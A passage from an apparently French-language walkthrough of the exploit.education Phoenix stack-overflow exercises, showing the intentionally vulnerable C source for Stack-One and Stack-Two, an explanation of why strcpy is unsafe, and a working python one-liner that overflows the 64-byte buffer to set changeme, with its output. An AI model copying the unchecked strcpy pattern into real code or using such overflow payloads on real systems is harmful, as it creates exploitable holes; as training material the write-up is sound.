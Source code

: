 ```c
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

- On a toujours la même struct, mais ici on doit passer l'argument `argv[1]` et faire en sorte d'avoir une valeur spécifique pour `changeme`.
  - La fonction `strcpy` est tout aussi naïve que `gets`, elle ne s'arrête qu'au caractère `0x00` contrairement à `strncpy` qui accepte un troisième argument représentant le nombre de caractères à copier.

```sh
user@phoenix-amd64:~$ /opt/phoenix/amd64/stack-one $( python -c 'print("E"*64+"\x62\x59\x6c\x49")')
```
```
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

## Stack-Two

- Le code:

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
```